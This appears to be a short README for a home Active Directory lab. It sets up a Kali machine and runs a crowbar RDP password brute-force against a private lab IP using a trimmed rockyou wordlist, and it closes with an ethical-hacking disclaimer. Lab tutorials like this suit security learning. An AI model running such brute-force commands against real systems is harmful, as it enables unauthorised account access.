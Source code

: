 # Simple Configuration Guide  

## 1. Set IP Address and DNS  
Configure the machine with the following settings:  
- **IP Address:** `192.168.10.250/24`  
- **DNS:** `8.8.8.8`  

## 2. Update and Upgrade Kali Machine  
Run the following command:  
```bash
apt-get update && apt-get upgrade
```

## 3. Create Project Directory  
Create a directory named **AD-Project** where all project files will be stored:  
```bash
mkdir AD-Project
```

## 4. Install Crowbar for Brute Force Attacks  
Use the following command to install **crowbar**:  
```bash
sudo apt-get install -y crowbar
```

## 5. Copy RockYou Wordlist  
Copy the `rockyou.txt` wordlist from `/usr/share/wordlists/` to the `AD-Project` directory.  
If `rockyou.txt` is compressed (`rockyou.txt.gz`), first unzip it:  
```bash
sudo gunzip /usr/share/wordlists/rockyou.txt.gz
```
Then copy it to the project directory:  
```bash
cp /usr/share/wordlists/rockyou.txt ~/Desktop/AD-Project/
```

## 6. Create a Password List  
Copy the first 20 passwords from `rockyou.txt` into a new file called `password.txt`:  
```bash
cd ~/Desktop/AD-Project
head -n 20 rockyou.txt > password.txt
```

## 7. Edit `password.txt`  
Modify `password.txt` to add the target password for brute force:  
```bash
nano password.txt
```

---

## Running the Brute Force Attack  
Use **Crowbar** to perform an RDP brute-force attack:  
```bash
crowbar -b rdp -u tinashe -C password.txt -s 192.168.10.100/32
```
- `-b rdp` → Specifies **Remote Desktop Protocol**  
- `-u tinashe` → Defines the **username**  
- `-C password.txt` → Specifies the **password file**  
- `-s 192.168.10.100/32` → Defines the **target IP address**  

---

### Notes  
- Ensure you have the correct permissions before running the attack.  
- This guide is for ethical hacking and penetration testing purposes only.  

---
